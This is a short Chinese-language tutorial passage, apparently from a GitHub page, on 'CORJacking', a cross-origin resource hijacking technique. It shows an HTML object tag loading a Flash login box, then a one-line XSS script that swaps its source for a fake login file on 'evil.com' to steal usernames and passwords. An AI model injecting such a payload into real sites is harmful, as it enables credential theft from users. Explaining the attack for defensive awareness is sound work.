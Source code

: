 ## CORJacking跨域资源劫持

HTML5应用有各种不同的资源，例如Flash文件，Silverligh，视频，音频等，这些资源可以通过DOM访问和控制。<br>
如果页面存在XSS漏洞，那么攻击者可能通过跨域资源的劫持进行攻击 。<br>

#### 举例：<br>
下面的代码载入了一个swf文件，作为用户登录框，这里面我们可以实现一些加密的逻辑。
  
`<object classid=“clsid:xxxxxxx-xxxx-xxxx-xxxxxx” id=“Login” width=“100%”height=“100%”  `<br>
  `  codebase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab>    ` <br>
`<param name=“movie”value=“Login.swf” />    `  <br>
`<param name=“quality”value=“high” />     `   <br>
`<embed src=“Login.swf”quality=“high” width=“50%” height=“50%”>`      <br>
`</object> `  <br>
##### 当页面存在XSS漏洞时，攻击者可以利用如下脚本把swf文件替换为欺诈的虚假资源。
`document.getElementByName(‘Login’).item(0).src=‘http://evil.com/login.swf’; ` <br>
那么当用户在这样的登录框里输入自己的用户名和密码并登录时，他的帐号就已经被盗取了。
